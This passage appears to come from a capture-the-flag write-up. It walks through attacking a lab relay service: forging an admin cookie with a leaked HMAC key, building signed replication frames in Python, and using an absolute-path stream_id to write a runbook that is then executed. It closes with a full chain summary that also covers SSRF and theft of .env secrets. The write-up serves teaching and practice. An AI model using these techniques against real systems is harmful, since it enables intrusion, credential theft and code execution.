    b"7f3c9a2e1b84d056a0c3e91f44b7d2aa",   # key as literal ASCII string
    payload_b64.encode(),
    hashlib.sha256
).hexdigest()
cookie = payload_b64 + "." + mac
```

The session page said the key is "the literal environment string, not hex-decoded." So I use the key as a plain ASCII string, not as 16 decoded bytes. This is the kind of detail that would break the forgery silently.

I verified the MAC matters — a zeroed MAC is rejected:

```text
$ GET /console/automation
Cookie: hsp_session=<payload>.0000000000000000000000000000000000000000000000000000000000000000
HTTP 401 Unauthorized
```

The real MAC is accepted. I now have admin access to the console.



---

## The console: runbooks and peer trace

The admin console has two pages.

**Runbooks** (`/console/automation`):



```text
Directory   /var/lib/helioform/runbooks
Header      HSP-RUNBOOK
Interval    5s, and whenever a new file is written
Last output idle
```

Any file dropped into `/var/lib/helioform/runbooks/` that starts with the line `HSP-RUNBOOK` is executed as the relay user. The scheduler checks every 5 seconds and also runs whenever a new file is written to that directory. This is my code execution path — if I can write a file there.

The console itself has no upload functionality. The log root from `collector.env` is `/var/log/helioform/streams`, not `/var/lib/helioform/runbooks`. These are two different directories. I cannot write to the runbook directory from the console. I need another way in.

**Peer trace** (`/console/trace`):

POST to `/console/trace` arms a 45-second capture. After a few seconds, the collector's replication exchange with recordd shows up. This is how I learn the replication protocol.



The trace page has two sections. The first is the **decoder** — the grammar of the replication protocol:

```text
inspector: hsp-repl/1
mac: HMAC-SHA256 over mac_canonical, key is the replication cluster key, digest lowercase hex
integers on the wire are little-endian
tip is 32 raw bytes; bind is 16 raw bytes; mac is 32 raw bytes

peer hello body: u16 peer_len | peer | u32 epoch | tip[32] | mac[32]
hello mac_canonical = hsp-repl/1|hello|{epoch}|{tip_hex}|{peer}

commit blob body: u16 stream_len | stream_id | u8 mode | u32 epoch | tip[32] | bind[16] | u32 body_len | body | mac[32]
mode 0x01 replaces the resolved stream file with body
blob mac_canonical = hsp-repl/1|blob|{epoch}|{tip_hex}|{bind_hex}|{stream_id}|{body_sha256}
body_sha256 = lowercase hex SHA-256 of the raw body
```

Let me break this down because I had to stare at it for a while.

**Peer hello (opcode 0x11):**
The body is packed as: 2-byte little-endian length of the peer name, then the peer name as ASCII, then a 4-byte little-endian epoch number, then 32 raw bytes of the current tip hash, then 32 raw bytes of the HMAC. The MAC is computed over the string `hsp-repl/1|hello|{epoch}|{tip_hex}|{peer}` using `REPLICATION_MAC_KEY`.

**Commit blob (opcode 0x17):**
The body is: 2-byte LE length of stream_id, stream_id as ASCII, 1 byte mode (0x01 = replace), 4-byte LE epoch, 32 bytes tip, 16 bytes bind, 4-byte LE body length, the body bytes, and 32 bytes HMAC. The MAC is over `hsp-repl/1|blob|{epoch}|{tip_hex}|{bind_hex}|{stream_id}|{body_sha256}`.

The second section is the **live capture** — an actual exchange from the built-in collector:

```text
opcode=0x0011
mac_canonical=hsp-repl/1|hello|7|47a237fede22...99c59640|relay-collector
peer=relay-collector
epoch=7
tip=47a237fede22de258c6ae30e9ffe7fdca76d7c8b1f16a8325f84100699c59640

opcode=0x0017
mac_canonical=hsp-repl/1|blob|7|47a237fede22...99c59640|d70e37a4a0ea...6034eb9|site-north-inverter-14.log|6c588e09...
stream_id=site-north-inverter-14.log
mode=0x01
body_sha256=6c588e093ab300528bc08fdc2007a51598adfb1e9a58c79a42d78ad08c919717
resolved=/var/log/helioform/streams/site-north-inverter-14.log
```

The peer name matches `COLLECTOR_PEER` from `collector.env`. The resolved path is `LOG_ROOT` + `/` + `stream_id`. The `epoch`, `tip`, and `bind` match what I got from the status port. The key for the HMAC is `REPLICATION_MAC_KEY` from `relay.env`.

The trace gives me the grammar. But **the values in the trace are already stale.** The collector commits every 5 seconds, and each commit advances the tip. If I try to use the tip from the trace, I will get `err: stale tip`. I need to read fresh values from the status port (7712) immediately before connecting to the replication port (7713).

I confirmed this the hard way:

```text
# Read status, wait 6 seconds, read status again
FRESH tip: a8a5a0feba6f8b1886806b64be091ceadec9736b09ce44f78c9a3a0f037b7500
LATER tip: 8de5fb0099841d14330155bbf5b9630c161d1845f8f508442f23d7ba35246616

# Send hello signed over the FRESH tip
>> opcode=0x0011  signed over FRESH tip
<< err: stale tip
```

The window is about 5 seconds — the collector interval. I need to read status, compute the MACs, connect to 7713, and send both frames before the collector's next commit.

---

## Building the replication messages

The sequence is:
1. DIAL to 7712, read status to get `epoch`, `tip`, `bind`
2. Immediately DIAL to 7713
3. Send PEER_HELLO (opcode 0x11) with a valid MAC
4. Send COMMIT_BLOB (opcode 0x17) to write a file

For the peer hello:
```python
peer = "relay-collector"
canonical = f"hsp-repl/1|hello|{epoch}|{tip}|{peer}"
mac = hmac.new(REPLICATION_MAC_KEY.encode(), canonical.encode(), hashlib.sha256).hexdigest()

# Pack: u16 peer_len | peer | u32 epoch | tip[32] | mac[32]
hello_body = struct.pack("<H", len(peer)) + peer.encode()
hello_body += struct.pack("<I", epoch)
hello_body += bytes.fromhex(tip)
hello_body += bytes.fromhex(mac)
```

For the commit blob, the stream_id is the key question. The normal collector writes to `site-north-inverter-14.log` which resolves to `/var/log/helioform/streams/site-north-inverter-14.log`. I need to write to `/var/lib/helioform/runbooks/intake.py`.

---

## Path traversal — absolute stream_id

The trace showed that the resolved path is `LOG_ROOT + "/" + stream_id`. My first attempt was a relative path traversal:

```text
>> opcode=0x0017  stream_id=../runbooks/intake.py  mode=0x01
<< err: stream id rejected
```

`..` is checked and blocked. But look at the trace output again: the resolved path for `site-north-inverter-14.log` is `/var/log/helioform/streams/site-north-inverter-14.log`. What if the stream_id starts with `/`?

In the server code, `resolve_stream()` checks for `..` components but when the stream_id starts with `/`, `os.path.join()` on POSIX returns the absolute path as-is — the log root is dropped entirely. The server does not check for leading `/`.

```text
>> opcode=0x0017
   stream_id=/var/lib/helioform/runbooks/intake.py
   mode=0x01
   body=
   HSP-RUNBOOK
   import pathlib
   print(pathlib.Path('/flag').read_text())

<< opcode=0x0017 flags=0x0001
   ok path=/var/lib/helioform/runbooks/intake.py
```

The raw hex of the start of the blob body shows the structure:

```text
0000  25 00 2f 76 61 72 2f 6c 69 62 2f 68 65 6c 69 6f   %./var/lib/helio
0010  66 6f 72 6d 2f 72 75 6e 62 6f 6f 6b 73 2f 69 6e   form/runbooks/in
0020  74 61 6b 65 2e 70 79 01 ...                       take.py.
```

`0x25 0x00` is 37 in little-endian — the length of `/var/lib/helioform/runbooks/intake.py`. The `0x01` after the path is the mode byte (replace). The reply confirms the path is `/var/lib/helioform/runbooks/intake.py`, not under the log root.

The body I wrote is a Python script:
```python
HSP-RUNBOOK
import pathlib
print(pathlib.Path('/flag').read_text())
```

The first line is the `HSP-RUNBOOK` header that the scheduler requires. The rest reads `/flag` and prints it to stdout.

---

## Reading the flag

The runbook scheduler runs every 5 seconds and also triggers when a new file is written. Since my blob write creates a file in the runbook directory, the scheduler picks it up immediately.

I refreshed `/console/automation` with my forged admin cookie:



```text
CSCTF{hsp_raw_d0wngrade_pr0xy_dial_env_t4p_runb00k}
```

---

## Full chain summary

1. **Read the docs.** The protocol documentation at `/docs/hsp` reveals two WebSocket subprotocols. The agent one (`hsp.raw.1`) has a DIAL opcode the customer one does not.
2. **Protocol downgrade.** Request `hsp.raw.1` on the WebSocket upgrade. The server accepts it without authentication — `proxy_authorize_legacy()` treats the completed HTTP upgrade as proof of proxy auth.
3. **SSRF via DIAL.** The DIAL opcode connects to internal loopback services. Port scan finds four: catalogd (7710), provd (7711), recordd (7712), replication (7713).
4. **Service catalog.** catalogd gives a nonce and a service directory. Send the nonce back to get a mesh ticket.
5. **Environment exfiltration.** provd serves `.env` files from `/etc/helioform/`. Extract `relay.env` to get `CONSOLE_MAC_KEY`, `CONSOLE_ISS`, `CONSOLE_AUD`, and `REPLICATION_MAC_KEY`.
6. **Session forgery.** Forge an admin cookie using the leaked HMAC key and claims.
7. **Learn the replication protocol.** The admin console's peer trace captures the collector's replication exchange and shows the exact wire format and MAC canonical strings.
8. **Path traversal via absolute stream_id.** The replication protocol's `resolve_stream()` checks for `..` but not for absolute paths starting with `/`. Write a runbook file directly to `/var/lib/helioform/runbooks/`.
9. **Code execution.** The runbook scheduler executes the file, which reads `/flag`.

Each step depends on the one before it. You cannot skip ahead.
